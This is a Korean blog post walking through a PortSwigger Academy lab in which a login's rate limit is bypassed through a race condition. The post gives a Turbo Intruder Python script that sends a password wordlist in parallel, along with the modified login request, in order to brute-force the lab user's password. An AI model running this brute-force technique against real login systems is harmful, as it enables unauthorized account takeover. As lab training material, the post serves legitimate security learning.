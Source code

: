 ```yaml
---
layout: post
title: "Burp Academy-레이스컨디션 관련 취약점: Limit overrun race conditions"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 레이스컨디션, Race Condition]
toc: true
last_modified_at: 2023-09-01 10:33:00 +0900
---
```


# 개요
- 새로 추가된 레이스 컨디션 관련 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits
- 취약점 설명페이지: https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions
- 난이도: PRACTITIONER (보통)

# 문제 개요 
- 이번에는 로그인 시도 횟수 제한이 있는 로그인기능을 브루트포스로 푸는 문제이다. 
- 로그인 시도 횟수 카운터가 올라가기 전에 요청을 병렬로 보내면 될 것 같다. 
- 로그인에 시도할 패스워드 목록도 제공해주고 있다. 
- 로그인에 성공하면 admin 패널에서 carlos유저를 삭제하면 된다. 
- 이 랩은 15분 시간제한이 있다. 이 시간안에 브루트포스를 성공시켜야 한다. 

```
This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

To solve the lab:

Work out how to exploit the race condition to bypass the rate limit.
Successfully brute-force the password for the user carlos.
Log in and access the admin panel.
Delete the user carlos.
You can log in to your account with the following credentials: wiener:peter.

You should use the following list of potential passwords:
```

# 터보 인트루더를 사용하기 
요청을 병렬로 보내기 위한 다음과 같은 기본형이 소개되어 있다. 

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

# 풀이
## Turbo Intruder 설치
혹시 Turbo Intruder가 설치되어 있지 않다면 Extensions > BApp Store에서 Turbo Intruder를 설치한다. 

## 로그인 요청을 터보 인트루더로 보내기 
로그인요청을 Burp Proxy로 잡은 후에 마우스 오른쪽 버튼 클릭 Extensions > Turbo Instruder > Send to turbo intruder를 선택한다. 

## 터보 인트루더 세팅하기 
1. 로그인 요청 조정 

로그인 요청을 조금 조정한다. useranme은 carlos로 변경하고 password부분은 %s로 바꾼다. 

```http
POST /login HTTP/2
Host: 0a150014032cbb6382ec568f00bd00c3.web-security-academy.net
Cookie: session=TYVh5XkpMwjuvNVwTx9Vaj0jUDX2MUCR
Content-Length: 68
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a150014032cbb6382ec568f00bd00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a150014032cbb6382ec568f00bd00c3.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=zFE02nmU8JvnHNLgT1xbM2gRS4Ori9vT&username=carlos&password=%s
```


2. 문제에서 주어진 패스워드를 파일로 저장해준다. 나는 C:\passwords\passwords.txt에 저장해두었다. 

3. 패스워드 후보를 파일에서 얻어오도록 다음과 같이 코드를 수정한다. 

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    for word in open('C:\passwords\passwords.txt'):
        engine.queue(target.req, word.rstrip(), gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')


def handleResponse(req, interesting):
    if interesting:
        table.add(req)

```

## 브루트 포스 공격시도 

4. attack을 눌러서 공격을 시도한다. 그러면 다음과 같이 결과라 리스트업 된다. 여러 요청중에 하나만 302응답인 것을 알 수 있다. 이 것이 calors유저의 패스워드이다. 

(혹시 csrf토큰에러가 발생한다면 새롭게 로그인 웹 페이지에 들어가서 새로운 csrf토큰을 얻어와서 세팅한다. )

![attack결과](/images/burp-academy-race-condition-2-1.png)

5. calros유저로 로그인한다. 

![calors유저로 로그인](/images/burp-academy-race-condition-2-2.png)

6. Delete버튼을 눌러서 calros 유저를 삭제하면 문제가 풀렸다는 메세지가 출력된다. 

![문제풀이](/images/burp-academy-race-condition-2-success.png)

# 배운 것
- 이전 문제에서 Burp Reapeter에서 수행했던 HTTP/2 Single Packet Attack 을 Turbo Intruder를 이용해서 수행할 수 있다. 
- 코드를 작성할 수 있으니 더 여러방면에서 쓸 수 있다. 

# 참고 
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py
- https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack
